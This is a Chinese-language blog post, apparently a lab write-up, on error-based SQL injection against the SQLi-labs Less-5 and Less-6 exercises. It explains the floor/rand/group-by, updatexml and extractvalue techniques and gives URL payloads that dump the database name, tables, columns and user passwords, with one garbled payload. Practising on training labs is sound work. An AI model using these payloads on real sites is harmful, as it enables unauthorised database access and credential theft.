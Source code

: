 ```yaml
---
layout: post
title: SQL双查询注入(less5,less6)
date: 2021-06-04 13:58 +0900
category: penetration-exp
---
```

<!-- TOC -->

- [0x0 SQL注入基本姿势](#0x0-sql注入基本姿势)
- [0x1 LESS-5](#0x1-less-5)
- [0x2 LESS-6](#0x2-less-6)

<!-- /TOC -->
## 0x0 SQL注入基本姿势

**floor报错注入**  

``` c
Rand() //随机函数，用于产生 0 至 1 之间的随机数
Floor() //取整函数，向下舍入为指定小数位数 如：floor(1.45,0)= 1;floor(1.55,0) = 1
Count() //汇总函数
Group by clause //分组语句
concat() //连接两个字符串
```
在一个聚合函数，比如count函数后面如果使用 **Group by** 分组语句就会把查询的一部分以错误的形式显示出来  

``` c
SELECT floor(rand()*2) //查询结果不是0就是1
SELECT CONCAT((SELECT database()), FLOOR(RAND()*2)) //查询出数据库的名称并在后面拼接0或者1
```
**如果我们把这条语句后面加上 from 一个表名。那么一般会返回security0或security1的一个集合。数目是由表本身有几条结果决定的**  

```c
select concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a;
//把concat((select database()), floor(rand()2)) 这个结果取了一个别名 a
//然后使用他进行分组。这样相同的security0分到一组，security1分到一组。就剩下两个结果了
```
![](/images/20210602-1.png)
```c
select count(*), concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a;
//加入count引起报错，或者正常输出
```
![](/images/20210602-2.png)
![](/images/20210602-3.png)
```c
select count(*), concat('0x7C',(select user()),'0x7C', floor(rand()*2)) as a from information_schema.tables group by a;
//加入 '~'让结果更加清晰
```

**updatexml()函数**  
```c
select * from message where id = 1 and updatexml (1, (concat (0x7C, (select @@version))) ,1);
```
**extractvalue()函数**  
```c
select * from message where id= 1 and extractvalue (1, concat (0x7C, (select user()));
```

## 0x1 LESS-5
- 存在注入点  


![](/images/20210602-4.png)
- 爆出数据库 

`?id=1' union select updatexml (1, (concat (0x7e, (select database()),0x7e)) ,1) --+`  
![](/images/20210602-5.png)
- 爆出表名  

`?id=1' union select updatexml (1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e)) ,1) --+`  
![](/images/20210602-6.png)
- 爆出字段  

`?id=1' union select updatexml (1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where   table_name='users' and table_schema = database()),0x7e)) ,1) --+`  
![](/images/20210602-7.png)
- 爆出用户名密码  

`?id=1' and updatexml(1,concat(0x5e,(select group_concat(username,0x7e,password) from users),0x5e),1) --+`  
![](/images/20210602-8.png)
**只爆出了部分结果**  
`?id=1' and updatexml(1,concat(0x5e,(substr((select group_concat(username,0x7e,password) from user),1)),0x5e),1)--+`  
**更改user后面的参数来控制**  
![](/images/20210602-9.png)

## 0x2 LESS-6
- 存在注入点  

![](/images/20210602-10.png)
- 使用floor报错注入,爆出库名  

```c
?id=1(")" union SELECT 1,count(*),concat(0x7e,(select ''''''''),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+
 //union stelect 1,count(*), *** as a 联合查询1,***并他们命名为A
 //from information_schema.table 从这个表
 //group by a 分成几组，把结果分组输出
// 利用 count + floor +group by会报错的原理
```
`?id=1" union SELECT 1,count(*),concat(0x7e,(select database()),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-11.png)
- 爆出表名  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema='security'),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-12.png)
>这里多了一个键，键1已经存在虚拟表中，由于键只能唯一，所以此时就会报错。所以在使用floor()、rand(0)、count()、group by时，数据表中至少要有3条记录才会报错，所以我们在第二条select语句末尾加上limit x,1即可让它报错继续注入。  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-13.png)
- 查到用户表  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-14.png)
- 爆列名  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select column_name from information_schema.columns where table_schema=database()and table_name='users' limit 1,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-15.png)
>修改limit 1,1;limit2,1可以爆出存在username和password字段  

- 爆字段  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select concat(0x5e,username,0x5e,password,0x5e) from users limit 0,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-16.png)